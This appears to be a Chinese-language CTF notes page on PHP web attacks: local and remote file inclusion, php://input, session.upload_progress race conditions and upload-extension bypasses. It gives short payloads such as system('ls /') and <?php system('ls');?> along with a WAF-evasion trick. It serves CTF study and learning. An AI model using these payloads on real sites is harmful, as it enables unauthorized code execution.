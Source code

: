 https://blog.csdn.net/weixin_43952190/article/details/106016260

#### game-gyctf web2 逐步分析

http://www.iricky.ltd/2021/03/30/80.html

#### phar 反序列化 nssctf

## 文件包含 LFI Local File Include

CTFhub 文件包含

    GET: ?file=shell.txt
    POST: ctfhub=system('ls /');

远程文件包含

    用file包含phpinfo是有回显的，所以构造payload ：
    GET: xxx:10080/?file=php://input
    POST: <?php system('ls');?>

### session.upload_progress.cleanup 相关

https://www.cnblogs.com/afanti/p/9227493.html

设置满足以下条件

```
session.upload_progress.enabled = on
session.upload_progress.cleanup = on # on 时会自动清空， 需要条件竞争 ，off时不需要
```

当 cleanup 是 off 的情况下，构造如下数据包上传文件。

当 session.upload_progress.enabled 开启时，一个上传在处理中，同时 POST 一个与 INI 中设置的 session.upload_progress.name 同名变量时，上传进度可以在$_SESSION中获得。 当PHP检测到这种POST请求时，它会在$\_SESSION 中添加一组数据, 索引是 session.upload_progress.prefix 与 session.upload_progress.name 连接在一起的值。 通常这些键值可以通过读取 INI 设置来获得

的 phpinfo 查看 session.save*path 为$path, $path\tmp 下生成如下文件，文件名就是 sess*加上你的 sessionid

`tmp\tmp\sess_5uu8r952rejihbg033m5mckb17`

当 session.upload_progress.cleanup=On 时，生成的文件会定时清空，不能写入恶意代码，这时候需要条件竞争。

在 burp intruder 中构造如下数据包，进行爆破

## php 文件上传

```
js
PHP
Php
php::$DATA
php
php.
php. .
php3
php4
php5
php%00.jpg
MIME
特殊 image/jpg + 'php ' + 'Multipart/form-data'  , 云waf会过滤multipart，用大写能过
```
